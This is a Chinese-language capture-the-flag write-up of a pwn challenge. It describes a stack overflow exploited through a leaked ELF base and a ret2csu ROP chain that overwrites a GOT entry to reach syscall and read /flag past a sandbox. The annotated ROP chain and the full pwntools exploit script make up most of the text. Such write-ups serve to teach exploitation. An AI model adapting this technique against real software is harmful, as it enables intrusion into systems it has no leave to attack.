

[题目链接](./A_Sad_Story.zip)

一个简单的栈溢出。三十年河东,三十年河西,莫欺少年is a single dog!!!

<!--more-->

## 题目分析

checksec：


沙箱：


第 1 次选择只能输入 1，其他数字退出程序。

输入 1 之后会进入 `sub_1492` 这个函数里：


循环获取用户输入，根据输入的数字选择进入的函数，1 是 `sub_1420`，2 是 `sub_1468`。

`sub_1420` 打印 `sub_1249` 函数指针 并关闭 stdout：



`sub_1468` 读取用户输入到栈上，预分配大小 0x30，存在栈溢出：


## 解题思路

`sub_1420` 拿到基址，再通过 `sub_1468` 的栈溢出制造 ret2csu ROP。

ret2csu 利用 read 修改 `got[close]` 地址最后一位指向 `syscall`，然后通过 `read` 结果控 `rax`，调用 `openat` 读 flag。

## poc

ROP：

```plain
csu1
.text:0000000000001620 4C 89 F2                      mov     rdx, r14
.text:0000000000001623 4C 89 EE                      mov     rsi, r13
.text:0000000000001626 44 89 E7                      mov     edi, r12d
.text:0000000000001629 41 FF 14 DF                   call    qword ptr [r15+rbx*8]

csu2
.text:000000000000163A 5B                            pop     rbx     
.text:000000000000163B 5D                            pop     rbp
.text:000000000000163C 41 5C                         pop     r12
.text:000000000000163E 41 5D                         pop     r13
.text:0000000000001640 41 5E                         pop     r14
.text:0000000000001642 41 5F                         pop     r15
.text:0000000000001644 C3                            retn

rop_chain = [
    csu2, 0, 1, 0, elf.got['close'], 1, elf.got['read'],
    csu1, 0, 0, 0, 0, 0, 0, 0,
    csu2, 0, 1, 0, elf.address + 0x4280, 257, elf.got['read'],
    csu1, 0, 0, 0, 0, 0, 0, 0,
    csu2, 0, 1, 0, elf.address + 0x4280, 0, elf.got['close'],
    csu1, 0, 0, 0, 0, 0, 0, 0,
    csu2, 0, 1, 1, elf.address + 0x4280, 0x30, elf.got['read'],
    csu1, 0, 0, 0, 0, 0, 0, 0,
    csu2, 0, 1, 0, elf.address + 0x4280 + 0x30, 1, elf.got['read'],
    csu1, 0, 0, 0, 0, 0, 0, 0,
    csu2, 0, 1, 2, elf.address + 0x4280, 0x30, elf.got['close'],
    csu1
]

第 1 个参数：RDI
第 2 个参数：RSI
第 3 个参数：RDX
第 4 个参数：RCX
第 5 个参数：R8
第 6 个参数：R9

mov rbx, 0
mov rbp, 1
mov r12, 0
mov r13, got[close]
mov r14, 1
mov r15, got[read]

// 写入一个字节，将got[close]地址的最后一位变为0x15，即 syscall 偏移
mov rdx, r14                    ; mov rdx, 1            ; count
mov rsi, r13                    ; mov rsi, got[close]   ; buf
mov edi, r12d                   ; mov edi, 0            ; fd
call [r15+rbx*8]                ; call read         ssize_t read(int fd, void buf[.count], size_t count);


mov rbx, 0
mov rbp, 1
mov r12, 0
mov r13, elf.address + 0x4280
mov r14, 257
mov r15, got[read]

mov rdx, r14                    ; mov rdx, 257                      ; count
mov rsi, r13                    ; mov rsi, elf.address + 0x4280     ; buf
mov edi, r12d                   ; mov edi, 0                        ; fd
call [r15+rbx*8]                ; call read         ssize_t read(int fd, void buf[.count], size_t count);


mov rbx, 0
mov rbp, 1
mov r12, 0
mov r13, elf.address + 0x4280
mov r14, 0
mov r15, got[close]

mov rdx, r14                    ; mov rdx, 0                        ; flag = O_RDONLY
mov rsi, r13                    ; mov rsi, elf.address + 0x4280     ; path
mov edi, r12d                   ; mov edi, 0                        ; fd
call [r15+rbx*8]                ; call close         int openat(int fd, const char *path, int oflag, ...);


mov rbx, 0
mov rbp, 1
mov r12, 1
mov r13, elf.address + 0x4280
mov r14, 0x30
mov r15, got[read]

mov rdx, r14                    ; mov rdx, 0x30                     ; count
mov rsi, r13                    ; mov rsi, elf.address + 0x4280     ; buf
mov edi, r12d                   ; mov edi, 1                        ; fd
call [r15+rbx*8]                ; call read         ssize_t read(int fd, void buf[.count], size_t count);


mov rbx, 0
mov rbp, 1
mov r12, 0
mov r13, elf.address + 0x4280 + 0x30
mov r14, 1
mov r15, got[read]

mov rdx, r14                    ; mov rdx, 1                                ; count
mov rsi, r13                    ; mov rsi, elf.address + 0x4280 + 0x30      ; buf
mov edi, r12d                   ; mov edi, 0                                ; fd
call [r15+rbx*8]                ; call read         ssize_t read(int fd, void buf[.count], size_t count);


mov rbx, 0
mov rbp, 1
mov r12, 2
mov r13, elf.address + 0x4280
mov r14, 0x30
mov r15, got[close]

mov rdx, r14                    ; mov rdx, 0x30                     ; flag = O_RDONLY
mov rsi, r13                    ; mov rsi, elf.address + 0x4280     ; path
mov edi, r12d                   ; mov edi, 2                        ; fd
call [r15+rbx*8]                ; call close         write
```

Cited from [https://g1at.github.io/2023/11/25/DASCTF%E5%8D%81%E4%B8%80%E6%9C%88%E6%8C%91%E6%88%98%E8%B5%9B/#asadstory](https://g1at.github.io/2023/11/25/DASCTF%E5%8D%81%E4%B8%80%E6%9C%88%E6%8C%91%E6%88%98%E8%B5%9B/#asadstory)。

```python
from pwn import *

context.arch = 'amd64'
libc = ELF('./libc-2.31.so')  
elf = ELF('./challenge')      

p = gdb.debug('./challenge', 'brva 0x1480')

# p = process("./challenge")
# p = remote("node4.buuoj.cn", 28133)

def elf_base():
    p.sendlineafter(b': ', b'1')
    p.sendlineafter(b': ', b'1')
    p.recvuntil(b'0x')
    value = int(p.recv(12), 16) - 0x1249
    return value

elf.address = elf_base()
print("elf-->" + hex(elf.address))

csu1 = elf.address + 0x1620
csu2 = elf.address + 0x163a

offset = b'a' * 0x38

# Craft the ROP chain
rop_chain = [
    csu2, 0, 1, 0, elf.got['close'], 1, elf.got['read'],
    csu1, 0, 0, 0, 0, 0, 0, 0,
    csu2, 0, 1, 0, elf.address + 0x4280, 257, elf.got['read'],
    csu1, 0, 0, 0, 0, 0, 0, 0,
    csu2, 0, 1, 0, elf.address + 0x4280, 0, elf.got['close'],
    csu1, 0, 0, 0, 0, 0, 0, 0,
    csu2, 0, 1, 1, elf.address + 0x4280, 0x30, elf.got['read'],
    csu1, 0, 0, 0, 0, 0, 0, 0,
    csu2, 0, 1, 0, elf.address + 0x4280 + 0x30, 1, elf.got['read'],
    csu1, 0, 0, 0, 0, 0, 0, 0,
    csu2, 0, 1, 2, elf.address + 0x4280, 0x30, elf.got['close'],
    csu1
]


payload = b''.join([p64(addr) for addr in rop_chain])


p.sendline(b'2')
p.sendline(offset + payload)
p.send(b'\x15')
p.send(b'/flag' + b'\x00' * (257 - 5))
p.send(b'\x00' * 1)
p.interactive()

```
